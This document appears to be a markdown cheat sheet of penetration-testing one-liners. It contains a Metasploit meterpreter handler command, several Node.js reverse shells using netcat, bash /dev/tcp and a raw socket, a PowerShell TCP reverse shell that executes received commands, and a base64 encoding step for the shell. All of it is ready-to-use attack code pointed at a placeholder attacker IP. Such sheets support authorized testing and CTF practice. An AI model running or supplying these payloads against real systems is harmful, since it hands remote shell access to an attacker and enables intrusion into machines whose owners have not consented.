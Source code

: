 # Miscellaneous

---

### Table of Contents
- [Metasploit Handler Oneliner](#metasploit-handler-oneliner)
- [Reverse Shell JavaScript](#reverse-shell-javascript)
- [Reverse Shell PowerShell](#reverse-shell-powershell)

---

## Metasploit Handler Oneliner
- Create a `Metasploit` handler in one line

```bash
# E.g. Metapreter Reverse TCP
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <attacker_ip>;set LPORT <port>;run;"
```

## Reverse Shell JavaScript
- Context specific, e.g. `nodejs` (here: without URL encode)

```js
// NOT OpenBSD netcat, doesn't know -e
require("child_process").exec('nc <attacker_ip> <port> -e /bin/bash')

// Important: Use backticks here
process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'`)

// Another approach
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(4444, "<attack_ip>", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```

## Reverse Shell PowerShell
- Simple oneliner for creating a `powershell` reverse shell

```powershell
# Oneliner
$client = New-Object System.Net.Sockets.TCPClient('<attacker_ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};
```

-  Encode shell

```bash
iconv -f ASCII -t UTF-16LE shellcode.txt | base64 | tr -d "\n"
```

